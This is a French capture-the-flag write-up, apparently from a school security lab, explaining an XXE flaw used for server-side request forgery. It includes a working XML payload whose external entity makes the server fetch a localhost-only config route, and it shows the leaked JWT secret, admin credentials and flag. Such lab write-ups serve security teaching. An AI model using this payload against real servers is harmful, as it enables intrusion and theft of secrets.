


**A05 Security Misconfiguration / XXE - SSRF (Server Side Request Forgery)**

Definition : 

La vulnerabilite XXE (XML External Entity) survient ici lorsque le parser XML resout les entites externes. On nous dit que le `defusedxml` a ete desactive. Une entite externe peut donc referencer une ressource (fichier local ou URL) qui sera recuperee par le parser puis inseree dans un document au moment du traitement.

Si cette resolution n'est pas desactivee cote serveur, alors un attaquant peut definir une entite externe qui pointerait vers : 

- Une ressource locale du systeme de fichiers (`file://`) 
- Une ressource reseau (ce qui est le cas dans notre CTF) (`http://`) -> Le serveur emet la requete, ce qui constitue un **SSRF (Server Side Request Forgery)** : on force le serveur a agir comme un proxy pour atteindre des ressources qui sont normalement inaccessible a l'exterieur (ici `http://127.0.0.1:4942/internal/config`)

**Processus de decouverte / Reproduction**

Des commentaires a plusieurs endroits dans le code source, suggerent que `defusedxml` est desactive et cet indice dans le dashboard Staff nous laisse penser que le serveur parse le XML de son cote : 



Ca tombe bien : 

```html
<!-- TODO: replace stdlib xml.etree with defusedxml — emilie reported issue -->
<!-- NOTE: /internal/config restricted to localhost only. do not expose. --
```

On a une route qui doit etre restreinte a `localhost` uniquement, en se basant sur la doc [OWASP](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)  



sur les failles XXE, on va construire le fichier XML suivant : 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "http://127.0.0.1:4942/internal/config">
]>  
<!-- C'est ici le point interessant, on declare une nouvelle entite XML avec une DTD (Document Type Description), on cree l'entite "xxe" et le mot cle SYSTEM indique qu'il s'agit d'une ressource externe-->
<!-- Le serveur qui va parser ce XML est celui qui va effectuer la requete, donc pas le navigateur de l'attaquant, le serveur va tenter une requete sur localhost-->
<agenda>
  <event>
    <title>&xxe;</title>
    <!-- C'est ici que l'on va remplacer la reference par l'entite xxe.-->
    <date>2026-08-26</date>
  </event>
</agenda>
```

Voici ce qu'on obtient une fois l'upload du fichier effectue : 


```json
{
  "jwt_secret": "42network",
  "pb_admin_email": "admin@42network.local",
  "pb_admin_password": "Darkly42Admin!",
  "app_version": "1.0.0",
  "campus": "wilcity",
  "darkly_flag": "FLAG{d3fus3dxml_n3xt_spr1nt_pr0m1s3}"
}
```